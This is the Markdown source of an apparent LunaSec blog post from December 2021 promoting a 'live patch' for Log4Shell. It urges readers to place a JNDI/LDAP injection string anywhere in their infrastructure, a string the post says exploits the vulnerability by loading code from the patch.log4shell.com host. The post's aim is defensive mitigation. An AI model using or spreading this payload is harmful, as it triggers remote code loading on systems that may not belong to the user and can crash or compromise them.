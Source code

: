 ```yaml
---
title: "How to Automatically Mitigate Log4Shell with LunaSec Live Patch (CVE-2021-44228 + CVE-2021-45046)"
description: By simply sending a string to your servers, you can temporarily patch the Log4Shell vulnerability.
slug: log4shell-live-patch
date: 2021-12-14
image: https://www.lunasec.io/docs/img/log4shell-logo.png
keywords: [log4shell, log4j, log4j2, rce, java, zero-day, mitigation]
authors:
- name: Free Wortley
title: CEO at LunaSec
url: https://github.com/freeqaz
image_url: https://github.com/freeqaz.png
tags: [zero-day, security, data-security, data-breaches, guides]
- name: Chris Thompson
title: Developer at Lunasec
url: https://github.com/breadchris
image_url: https://github.com/breadchris.png
- name: Forrest Allison
title: Developer at LunaSec
url: https://github.com/factoidforrest
image_url: https://github.com/factoidforrest.png

---
```

<!--
  ~ Copyright by LunaSec (owned by Refinery Labs, Inc)
  ~
  ~ Licensed under the Creative Commons Attribution-ShareAlike 4.0 International
  ~ (the "License"); you may not use this file except in compliance with the
  ~ License. You may obtain a copy of the License at
  ~
  ~ https://creativecommons.org/licenses/by-sa/4.0/legalcode
  ~
  ~ See the License for the specific language governing permissions and
  ~ limitations under the License.
  ~
-->

TL;DR: This string will temporarily fix your systems.

```
${jndi:ldap://patch.log4shell.com:1389/a}
```

Mitigating a vulnerability in a single dependency used in one project is difficult. Code must be written, then tests must
pass, then approved, then deployed, and then monitored. A vulnerability in a logging framework, especially one as prolific as Log4j, is not a
single vulnerability. It is not even just a vulnerability in every system that you own, it is a vulnerability on every
system that you depend on.

Simply, one might think, the "true fix" is to change one version in your list of dependencies to be the latest version. In this
case we would like that number to be [~`2.15.0`~, er... `2.16.0`](...). But we cannot simply restart every server all at once.
What if changing that version causes your tests to not pass? What if you don't have tests to check correctness of the change...

Vendors also use Log4j. If your vendor software is a black box that runs on-prem, the "true fix" is just not possible.
You are left helpless until mitigation steps are given to you. Some vendors have recommended turning off their service
until they have implemented the "true fix" themselves. Being left in the dark by a company you have paid to provide you
a service isn't tolerable.

All the while, attackers are getting more sophisticated with their payloads. They are bypassing WAFs, your first line
of defense. They are discretely embeding themselves into your infrastructure while you attempt to roll out changes to fix
issues.

If you find yourself stuck between a rock and a hard place for fixing this issue at your company, the Log4Shell Live
Patch might provide you a temporary solution.

By placing this string:

```
${jndi:ldap://patch.log4shell.com:1389/a}
```

Anywhere you can in your infrastructure, you will be rolling out a temporary fix for the Log4Shell vulnerability.

:::warn There be dragons
This string will attempt to exploit the Log4Shell vulnerability and apply a patch to your live system. While this
patch has been tested on a number of systems, your system might be different and could possibly crash. You have been warned.
:::

This string will trigger the Log4Shell vulnerability and attempt to [exploit it](https://www.lunasec.io/docs/blog/).
Instead of your server being taken over by an attacker, your server will actually be fixed of the vulnerability.

We feel this

Since LunaSec is an open source company, we pride ourselves in being transparent in the work that we do. You can find the
full source code of this live patch service [here](https://github.com/lunasec-io/lunasec/tree/master/tools/log4shell) in our repo.
If you find this tool helpful, consider giving us a star ;)

We have extensively [written about steps for mitigating Log4Shell](https://www.lunasec.io/docs/blog/log4j-zero-day-mitigation-guide)
and we encourage you to refer to these steps as you and your company address this vulnerability. We strongly urge you and
your team to work towards updating your Log4j versions to `2.16.0` as you are able to.

## Stay Updated

Please follow us on [Twitter](https://twitter.com/LunaSecIO) or add yourself to our mailing list below, and we'll
update you when we publish new findings.

And if this post helped you, please share it with others to help them too.


<ContactForm/>

## Limited Offer: Free Security Assistance

We're also currently offering a free 30-minute consultation with one of our Security Engineers. If you're interested,
please [book some time with us here](https://lunasec.youcanbook.me/).

## Updates

:::info
We're continuously keeping this post up-to-date as new information comes out. If you have any questions, or you're
confused about our advice, please [file an Issue](https://github.com/lunasec-io/lunasec/issues) on GitHub.

If you would like to contribute, or notice any errors, this post is an Open Source Markdown file on
[GitHub](https://github.com/lunasec-io/lunasec/blob/master/docs/blog/2021-12-14-log4j-zero-day-update-on-CVE-2021-45046.mdx).
:::

